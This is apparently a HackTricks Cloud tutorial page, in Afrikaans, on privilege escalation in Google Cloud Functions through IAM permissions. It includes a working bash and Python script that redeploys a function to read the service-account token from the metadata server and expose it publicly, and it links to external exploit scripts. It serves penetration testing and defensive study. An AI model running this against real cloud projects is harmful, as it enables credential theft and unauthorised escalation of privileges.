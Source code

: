 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Meer inligting oor Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **'n nuwe Cloud Function met arbitrêre (kwaadwillige) kode skep en dit 'n Service Account toewys**. Dan, lek die Service Account token van die metadata om voorregte daartoe te eskaleer.\
Sommige voorregte om die funksie te aktiveer mag vereis word.

Eksploitskrifte vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) en [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) gevind word en die voorafgeboude .zip-lêer kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) gevind word.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **die kode van 'n Funksie wysig en selfs die diensrekening wat daaraan gekoppel is, wysig** met die doel om die token te eksfiltreer.\
Sommige voorregte om die funksie te aktiveer mag vereis word.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--trigger-http \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA tokin calling the new function code
gcloud functions call <cloudfunction-name>
```
Die uitbuitingskrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) gevind word.

### `cloudfunctions.functions.sourceCodeSet`

Met hierdie toestemming kan jy 'n **getekende URL kry om 'n lêer na 'n funksie-emmer op te laai (maar die kode van die funksie sal nie verander word nie, jy moet dit steeds opdateer)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie regtig seker hoe nuttig net hierdie toestemming is vanuit 'n aanvaller se perspektief nie, maar goed om te weet.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gee jouself enige van die vorige **`.update`** of **`.create`** voorregte om te eskaleer.

### `cloudfunctions.functions.update`

Net **`cloudfunctions`** toestemmings hê, sonder **`iam.serviceAccounts.actAs`** sal jy **nie in staat wees om die funksie op te dateer NIE, DUS IS DIT NIE 'N GELDIGE PRIVESC NIE.**

### Emmer Skryf Toestemmings

Jy mag dink dat 'n aanvaller met **skryf toestemmings oor die emmer** waar die Cloud Functions kode gestoor word, in staat sal wees om die **kode te wysig deur die** `function_code.zip` **oor te skryf** en dan die funksie **arbitêre** kode te laat uitvoer.

{% hint style="success" %}
**Dit is egter nie waar nie, net die kode binne die emmer oor te skryf sal nie die kode wat uitgevoer word, wysig nie.**
{% endhint %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
